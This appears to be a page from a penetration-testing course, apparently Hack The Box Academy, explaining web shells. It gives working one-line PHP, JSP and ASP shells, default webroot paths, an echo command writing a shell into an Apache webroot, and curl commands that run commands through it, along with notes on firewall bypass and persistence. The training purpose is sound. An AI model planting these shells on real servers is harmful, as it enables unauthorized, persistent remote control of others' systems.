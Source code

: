 First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:
Code: php

<?php system($_REQUEST["cmd"]); ?>

Code: jsp

<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

Code: asp

<% eval request("cmd") %>

Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:
Web Server 	Default Webroot
Apache 	/var/www/html/
Nginx 	/usr/local/nginx/html/
IIS 	c:\inetpub\wwwroot\
XAMPP 	C:\xampp\htdocs\

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:
Code: bash

echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using cURL. We can visit the shell.php page on the compromised website, and use ?cmd=id to execute the id command:

https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png

Another option is to use cURL:
Types of Shells

kappajester83@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.
